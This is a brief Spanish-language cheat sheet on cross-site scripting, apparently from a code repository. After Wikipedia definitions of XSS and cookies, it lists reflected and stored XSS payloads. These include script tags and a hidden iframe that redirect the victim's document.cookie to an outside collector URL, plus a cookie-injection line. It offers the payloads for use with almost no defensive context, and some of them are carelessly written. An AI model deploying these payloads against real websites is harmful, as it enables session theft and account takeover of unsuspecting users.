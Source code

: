 # XSS

## Que es XSS

[https://es.wikipedia.org/wiki/Cross-site_scripting] (Wiki)

Una secuencia de comandos en sitios cruzados o Cross-site scripting (XSS por sus siglas en idioma inglés) es un tipo de vulnerabilidad informática o agujero de seguridad típico de las aplicaciones Web, que puede permitir a una tercera persona inyectar en páginas web visitadas por el usuario código JavaScript o en otro lenguaje similar


## COOKIE

[https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica)] (Wiki)

El anglicismo cookie, usado también galleta o galleta informática, es un término que hace referencia a una pequeña información enviada por un sitio web y almacenada en el navegador del usuario, de manera que el sitio web puede consultar la actividad previa del navegador. Si se ha realizado un curso desde un inicio o una nueva aplicación se pueden realizar con la misma contraseña o no en su sistema:
1. Recordar accesos
2. Conocer información

## NO PERSISTENTE

__Cookies__

```javascript
console.log(document.cookie)
```

__URL__

```javascript
"><script> alert('123') </script>
```

__Recueprar Cookies__
```javascript
"><script> document.location='http://cookie.php?c='+document.cookie </script>
```


## PERSISTENTE

__Cookies__

```javascript
console.log(document.cookie)
```

__Almacenar__

```javascript
<script> alert('123') </script>
```

__Recueprar Cookies__

```javascript
<script> document.location='http://cookie.php?c='+document.cookie </script>
```

__Recueprar Cookies con Iframe__

```html
<iframe frameborder=0  height=0 width=0 src="javascript:void(document.location="http://cookie.php?c"+document.cookie)">
</iframe>
```

__Insertar Cookies__
	Insertar Cookies 
```javascript
javascript:void(document.cookie="asdasd")
```

## HERRAMIENTAS

https://www.asciitohex.com/

